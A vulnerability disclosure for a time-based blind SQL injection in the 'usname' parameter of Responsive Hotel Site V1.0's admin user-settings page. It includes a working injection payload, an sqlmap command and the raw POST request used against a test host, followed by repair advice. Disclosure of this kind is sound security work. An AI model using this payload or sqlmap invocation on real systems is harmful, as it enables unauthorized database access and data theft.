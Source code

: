 # Responsive Hotel Site V1.0 /admin/usersetting.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- 647661917@qq.com

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/usersetting.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "usname" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/usersetting.php" file. This vulnerability stems from insufficient user input validation of the 'usname' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'usname' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usname=Prasath' WHERE 3052=3052 AND (SELECT 5191 FROM (SELECT(SLEEP(5)))tOqV)-- uoeP&pasd=12345&up=Update
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20251011201722803](assets/image-20251011201722803.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/usersetting.php HTTP/1.1
Host: 10.151.169.235:8833
Content-Length: 35
Cache-Control: max-age=0
Origin: http://10.151.169.235:8833
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.169.235:8833/admin/usersetting.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive

usname=Prasath*&pasd=12345&up=Update
```

# Attack results

![image-20251011201745217](assets/image-20251011201745217.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.